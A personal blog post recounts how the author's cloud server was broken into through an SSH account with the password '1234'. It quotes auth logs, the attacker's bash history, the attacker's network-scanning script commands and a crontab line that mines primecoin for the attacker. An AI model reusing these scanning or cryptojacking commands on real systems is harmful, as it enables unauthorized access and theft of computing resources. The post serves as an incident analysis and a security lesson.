 Title: Don't use '1234' as your password
Date: 2013-11-17 14:00
Tags: digitalocean, security, unix

I got an email from DigitalOcean yesterday that looked pretty alarming:

>Please review the following abuse complaint and provide us with a resolution:

>We have noticed suspicious activity from 198.199.81.92 aimed at one of our servers. Please investigate this host and disable whichever exploit or malware is causing this activity. For more information or questions please refer to our website located at http://www.abuse.bz/
>Here are our raw logs: 

>[2013-11-16 04:23:14 CET] [Timestamp: 1384572194] [10470236.419446] Firewall: *TCP_IN Blocked* IN=eth0 OUT= SRC=198.199.81.92 DST=37.148.161.251 LEN=48 TOS=0x00 PREC=0x00 TTL=116 ID=22480 PROTO=TCP SPT=65529 DPT=5038 WINDOW=65535 RES=0x00 SYN URGP=0

>[2013-11-16 04:23:14 CET] [Timestamp: 1384572195] [10470236.491926] Firewall: *TCP_IN Blocked* IN=eth0 OUT= SRC=198.199.81.92 DST=37.148.162.251 LEN=48 TOS=0x00 PREC=0x00 TTL=117 ID=4984 PROTO=TCP SPT=65529 DPT=5038 WINDOW=65535 RES=0x00 SYN URGP=0

>[2013-11-16 04:23:14 CET] [Timestamp: 1384572195] [10470236.600632] Firewall: *TCP_IN Blocked* IN=eth0 OUT= SRC=198.199.81.92 DST=37.148.163.251 LEN=48 TOS=0x00 PREC=0x00 TTL=116 ID=20240 PROTO=TCP SPT=65529 DPT=5038 WINDOW=65535 RES=0x00 SYN URGP=0 

>Please note that generating multiple abuse complaints in a short period of time may lead to your account being suspended.

I had no idea what they were talking about, so I asked them what that meant. They responded with:

>This report indicates that your droplet is sending unauthorized traffic to the complaining party. The traffic seems to originate from TCP Port 65529 on your droplet. Please investigate what service or application this may be, and cease the activity.

I had no idea what happened, so I logged into my box and checked my processes. Turns out there was some strange processes running -  `ss` and `screen` - taking up all of my cpu. I didn't know what `ss` was so I killed it, and cpu usage dropped back to 0. Weird. I checked my usage graphs on DigitalOcean, and I saw something weirder.

[![Madness]({filename}/images/droplet-stats.png)]({filename}/images/droplet-stats.png)
    
What the fuck is this? This is very suspicious indeed. I did a quick search for ss and screen, and found [this guy](http://www.shellperson.net/hacked-ssh-bruteforce/) who had gotten ssh bruteforced. It looks like the same thing happened to me. But wait, I said, I know how to use the Internet. I know how passwords work. I'm better than this. I never get hacked.

Then I realized what the password on one of my accounts was. __1234__.

### Digging around

Looking through my `/var/log/auth.log`, I saw a _lot_ of this:

    :::text
    Address 85.232.244.50 maps to gamepad.pl, but this does not map back to the address - POSSIBLE BREAK-IN ATTEMPT!
    Invalid user fskjl32l32 from 85.232.244.50
    Address 85.232.244.50 maps to gamepad.pl, but this does not map back to the address - POSSIBLE BREAK-IN ATTEMPT!
    Invalid user abc from 85.232.244.50
    Address 85.232.244.50 maps to gamepad.pl, but this does not map back to the address - POSSIBLE BREAK-IN ATTEMPT!
    Invalid user abc123 from 85.232.244.50

So, as expected, my box was constantly being bruteforced. The only reason I lasted 5 months is because I'm using key-based login on `root`, and I'm not using common usernames like `test` or `user`. I did a search for successful logins by password:
    
    :::text
    root@poop:/var/log# grep -ri "accepted password" auth.log*
    auth.log.3:Nov  1 06:54:24 localhost sshd[3283]: Accepted password for wang from 88.146.181.101 port 46790 ssh2
    auth.log.1:Nov  3 15:58:13 localhost sshd[8964]: Accepted password for wang from 88.146.181.101 port 43976 ssh2
    
And there it is. The `wang` user happens to be a sudoer, too. This guy first got in more than 2 weeks ago. What other users did he try?

    :::text
    root@poop:/var/log# grep -ri "88.146.181.101" auth.log*
    auth.log.3:Nov  1 06:54:24 localhost sshd[3283]: Accepted password for wang from 88.146.181.101 port 46790 ssh2
    auth.log.2:Nov  3 15:58:13 localhost sshd[8964]: Accepted password for wang from 88.146.181.101 port 43976 ssh2
    auth.log.2:Nov  3 16:11:35 localhost sshd[9856]: Invalid user a from 88.146.181.101
    auth.log.2:Nov  3 16:11:35 localhost sshd[9856]: Failed none for invalid user a from 88.146.181.101 port 43992 ssh2
    auth.log.2:Nov  4 01:39:37 localhost sshd[505]: Failed password for root from 88.146.181.101 port 48730 ssh2
    auth.log.2:Nov  5 01:57:59 localhost sshd[27299]: Failed password for root from 88.146.181.101 port 33949 ssh2

Hmm, not that many actually. However, my logs only go back to October 27, so he was probably trying for a while before he found a valid user. `88.146.181.101` is based in the Czech Republic, but that may just be another compromised machine.

### The damage

I checked my bash history but could only find this section that wasn't me:
    
    :::bash
    screen -r
    screen -wipe
    ls -a
    cd /var/www
    ls
    cd /var/opt
    ls
    ls -a
    cd
    cd .cpan
    ls
    cd lin
    ls -a
    cd .kde
    ls
    rm -rf bios.txt
    screen
    ls
    ./0-50;./100-150;./150-200;./200-255;./50-100
    
I also noticed a couple of `screen -r`'s dispersed throughout, so the attacker may have done other bad things on my system that I don't know about. On my `/root/` folder, I found a `.cpan/` folder, inside containing some perl stuff and some build stuff. And of course, the bag of goodies containing treats like ddos and ssh bruteforce. Here are the contents of the script folder:

    :::text
    root@poop:~/.cpan/lin/.kde# ls -lh
    total 5.3M
    -rw-r--r-x 1 bin  bin  1.6K Nov  9 05:39 0-50
    -rw-r--r-- 1 root root 1.8M Nov 16 12:31 0-50.txt
    -rw-r--r-x 1 bin  bin  1.6K Nov  9 05:39 100-150
    -rw-r--r-x 1 bin  bin  1.6K Nov  9 05:38 150-200
    -rw-r--r-x 1 bin  bin  1.6K Nov  9 05:37 200-255
    -rw-r--r-x 1 bin  bin  1.6K Nov  9 05:38 50-100
    -rw-r--r-- 1 root root 2.9M Nov 16 20:34 bios.txt
    -rw-r--r-x 1 bin  bin   16K Feb 20  2009 s
    -rw-r--r-x 1 bin  bin  245K Feb 13  2001 screen
    -rw------x 1 bin  bin  444K Jan 19  2007 ss

The contents of the numbered scripts were all the same:

    :::text
    ./ss 5038 -a 1 -i eth0 -s 10
    ./ss 5038 -a 2 -i eth0 -s 10
    ./ss 5038 -a 3 -i eth0 -s 10
    
    ...
    
    ./ss 5038 -a 48 -i eth0 -s 10
    ./ss 5038 -a 49 -i eth0 -s 10
    ./ss 5038 -a 50 -i eth0 -s 10
    cat bios.txt |sort|uniq >> 0-50.txt
    rm -rf bios.txt

`bios.txt` was a long list of ips to target, and the `s`, `ss`, and `screen` files were binaries. It looks like the scripts scan the list of ips for ssh vulnerabilities, so the attacker can try to break into _those ips_ and presumably do the same exact thing, over and over again.

### Seriously? Primecoin?

I also found this treat in my crontab:

    :::text
    @hourly export LD_LIBRARY_PATH=/tmp/.ICE-unix/-log/lib;cd /tmp/.ICE-unix/-log/primecoind -datadir=/tmp/.ICE-unix/-log/.primecoin sendtoaddress Ad6ivkTLTxMmBa2iWGFJp8wJkVMhhL6hDp 10 >/dev/null 2>&1
    
Well, that explains the 100% cpu load. This guy was mining [primecoin](https://github.com/primecoin/primecoin) and sending the coins to himself. Inside that `.primecoin` folder was the Primecoin client and wallet.dat file. Sadly, there was nothing in the wallet, though I'm not sure how effective my tiny instance is at hashing.

### Good bye, poor instance

Fortunately, the attacker didn't mess with my data or personal files, and nothing on that machine was super private. He could have redirected my site to a bad one, or served viruses directly. I wouldn't even have known. This attack was probably the work of some bored script kiddie somewhere, seeing as he didn't modify the bash history or limit the cpu/network usage to remain undetected. The damage done was minimal, and I got a good learning experience out of it.

After I told DigitalOcean what happened, they recommended me to destroy my instance. I copied all the things I didn't already have on github to my local machine, booted up a new droplet, and set that one up. And, this time, I chose a better password than 1234.
